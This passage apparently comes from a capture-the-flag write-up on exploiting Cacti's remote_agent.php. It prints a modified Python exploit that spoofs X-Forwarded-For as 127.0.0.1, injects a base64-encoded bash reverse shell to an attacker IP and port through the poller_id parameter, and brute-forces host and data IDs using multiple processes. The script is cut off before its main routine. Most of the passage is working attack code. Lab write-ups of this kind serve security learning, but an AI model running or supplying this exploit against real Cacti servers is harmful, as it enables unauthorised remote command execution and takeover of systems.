 >    X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.

That meant that I needed to change the headers in the script:

```python
    def exploit(self):
        # cacti local ip from the url for the X-Forwarded-For header
        local_cacti_ip  = self.url.split("//")[1].split("/")[0]

        headers = {
            'X-Forwarded-For': f'{local_cacti_ip}'
        }
```

I replaced that section with the much more succint:

```python
headers = {'X-Forwarded-For': '127.0.0.1' }
```

I also made the script support multiprocessing, just in case the brute force would take a while. This turned out to be unnecessary, but here is the modified exploit:

```python
#!/usr/bin/env python3
import argparse
import base64
import httpx, urllib
from multiprocessing import Queue
from multiprocessing import Process

def run_exploit(queue):
    session = httpx.Client(headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"},verify=False,proxies=None)
    headers = {'X-Forwarded-For': '127.0.0.1'}
    while not queue.empty():
        url = queue.get()
        r = session.get(url,headers=headers,timeout=None)
        print(f"{url}:{r.status_code}\n{r.text}" )

def make_payload_queue(url, remote_ip, remote_port):
    revshell = f"bash -c 'exec bash -i &>/dev/tcp/{remote_ip}/{remote_port} <&1'"
    b64_revshell = base64.b64encode(revshell.encode()).decode()
    payload = f";echo {b64_revshell} | base64 -d | bash -"
    payload = urllib.parse.quote(payload)

    urls = Queue()
    # Adjust the range to fit your needs ( wider the range, longer the script will take to run the more success you will have achieving a reverse shell)
    for host_id in range(1,100):
        for local_data_ids in range(1,100):
            urls.put(f"{url}/remote_agent.php?action=polldata&local_data_ids[]={local_data_ids}&host_id={host_id}&poller_id=1{payload}")
    return urls

def parse_args():
    argparser = argparse.ArgumentParser()
    argparser.add_argument("-u", "--url", help="Target URL (e.g. http://192.168.1.100/cacti)")
    argparser.add_argument("-p", "--remote_port", help="reverse shell port to connect to", required=True)
    argparser.add_argument("-i", "--remote_ip", help="reverse shell IP to connect to", required=True)
    argparser.add_argument("-t", "--process_threads", type=int, help="number of process threads to spawn", required=True)
    return argparser.parse_args()

```